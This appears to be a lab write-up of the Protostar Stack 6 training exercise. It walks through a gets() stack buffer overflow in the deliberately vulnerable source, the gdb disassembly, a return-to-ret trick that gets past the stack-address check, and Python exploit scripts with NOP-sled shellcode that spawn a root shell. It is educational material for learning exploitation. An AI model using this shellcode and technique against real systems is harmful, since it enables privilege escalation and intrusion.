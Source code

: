 # PROTOSTAR : STACK 6
[Protostar:Stack6](https://exploit.education/protostar/stack-six/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

The **main()** calls **getpath()** function and the **buffer** variable is located in **getpath()**. The **gets** is vulnerable to Buffer Overflow and it takes **buffer** input. After filling the **buffer** we cannot directly go to stack address because of **stack address restrictions**.

### **SOURCE CODE**
Below is the disassembly of the **getpath()** function.
```
user@protostar:/tmp$ gdb -q /opt/protostar/bin/stack6
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) set disassembly-flavor intel
(gdb) disass getpath
Dump of assembler code for function getpath:
0x08048484 <getpath+0>: push   ebp
0x08048485 <getpath+1>: mov    ebp,esp
0x08048487 <getpath+3>: sub    esp,0x68
0x0804848a <getpath+6>: mov    eax,0x80485d0
0x0804848f <getpath+11>:        mov    DWORD PTR [esp],eax
0x08048492 <getpath+14>:        call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:        mov    eax,ds:0x8049720
0x0804849c <getpath+24>:        mov    DWORD PTR [esp],eax
0x0804849f <getpath+27>:        call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484a7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484aa <getpath+38>:        call   0x8048380 <gets@plt>
0x080484af <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484b2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484b5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484b8 <getpath+52>:        and    eax,0xbf000000
0x080484bd <getpath+57>:        cmp    eax,0xbf000000
0x080484c2 <getpath+62>:        jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:        mov    eax,0x80485e4
0x080484c9 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x080484cc <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x080484d0 <getpath+76>:        mov    DWORD PTR [esp],eax
0x080484d3 <getpath+79>:        call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x080484df <getpath+91>:        call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:        mov    eax,0x80485f0
0x080484e9 <getpath+101>:       lea    edx,[ebp-0x4c]
0x080484ec <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x080484f0 <getpath+108>:       mov    DWORD PTR [esp],eax
0x080484f3 <getpath+111>:       call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:       leave  
0x080484f9 <getpath+117>:       ret    
End of assembler dump.
(gdb) 
```

*How to Bypass Stack Address Restriction*
- To bypass the **stack address restriction** we will return to   the function itself, then go to a stack address and place our shellcode there.

    Return address = **0x080484f9** 

```py
import struct
padding = "A"*80

ret = struct.pack("I",0x080484f9)

print(padding + ret)
```
Lets run it and check whether the program returns to the function itself.

```
(gdb) b *0x080484f9
Breakpoint 1 at 0x80484f9: file stack6/stack6.c, line 23.
(gdb) r < ./exploit
Starting program: /opt/protostar/bin/stack6 < ./exploit
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAAAAAAAAA��

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
23      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) x/4x $esp
0xbffff7ac:     0x080484f9      0x08048500      0x00000000      0xbffff838
(gdb) si

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
23      in stack6/stack6.c
(gdb) 
```
If you observer the stack you will see the address of the function itself is on the stack and when it got popped the function pointer returned to itself.

Now let's write our Python Exploit code.

```py
import struct
padding = "A"*80

ret = struct.pack("I",0x080484f9)

stack = struct.pack("I",0xbffff7b0+20)

nop = "\x90"*100

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

print(padding + ret + stack + nop + shellcode)
```

Executing the program, we get the ROOT SHELL. Remember that the shell needs an input so I have used the **cat** command.
```
user@protostar:/tmp$ (python exploit.py; cat) | /opt/protostar/bin/stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAAAAAAAAA���������������������������������������������������������������������������������������������������������1�Ph//shh/bin��PS���

whoami
root

```
